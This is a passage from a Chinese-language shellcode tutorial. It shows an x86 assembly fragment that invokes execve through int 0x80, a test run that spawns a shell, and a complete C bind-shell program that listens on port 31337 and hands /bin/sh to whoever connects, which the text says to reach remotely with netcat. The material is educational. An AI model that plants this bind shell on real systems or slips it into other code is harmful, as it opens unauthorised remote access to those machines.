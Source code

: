 这几步如下所示：

```nasm
push ebx
mov ecx, esp
```

接着，各个参数都已经推入相应寄存器，直接开始调用`int 0x80`

## 验证我们的咒语

把你的shellcode保存为任意以`.asm`为后缀的文件。比如`shellcode.asm`

用之前我们的测试脚本生成可执行文件：

    ~/Work/notes/shellcode ⮀ sh test.sh shellcode.asm
    sh-4.2$ 

非常棒！！

## 绑定端口的shellcode

如果你是通过某种法术把shellcode咒语施加到某个远程的程序上，一个在远程机器本地提供的shell没有丝毫用处。你需要绑定端口，然后使用TCP/IP瑞士军刀netcat来远程打开一个shell。

为了将一个shell绑定到某个端口(比如31337端口，注意1024以下FIXME端口号的绑定需要root权限)上，需要做以下几步，我们先写出等效的C程序：

```c
#include <unistd.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void)
{
  int sockfd, new_sockfd;
  struct sockaddr_in host_addr, client_addr;
  socklen_t sin_size;
  int yes=1;

  sockfd = socket(PF_INET, SOCK_STREAM, 0); // 建立一个流套接字
  host_addr.sin_family = AF_INET; // 定义协议族
  host_addr.sin_port = htons(31337); // 定义端口号，注意本地到网络字节序转换
  host_addr.sin_addr.s_addr = INADDR_ANY; // 用本地IP填满
  memset(&(host_addr.sin_zero), '\0', 8); // 剩余空位用0填充
  // 将流套接字绑定到本地31337端口
  bind(sockfd, (struct sockaddr *)&host_addr, sizeof(struct sockaddr));

  listen(sockfd, 4); // 监听
  sin_size = sizeof(struct sockaddr_in);
  new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
  dup2(new_sockfd, 0);
  dup2(new_sockfd, 1);
  dup2(new_sockfd, 2);
  char *newargv[] = { "/bin/sh", NULL };
  char *newenviron[] = { NULL };
  execve("/bin/sh", newargv, newenviron);
}
```

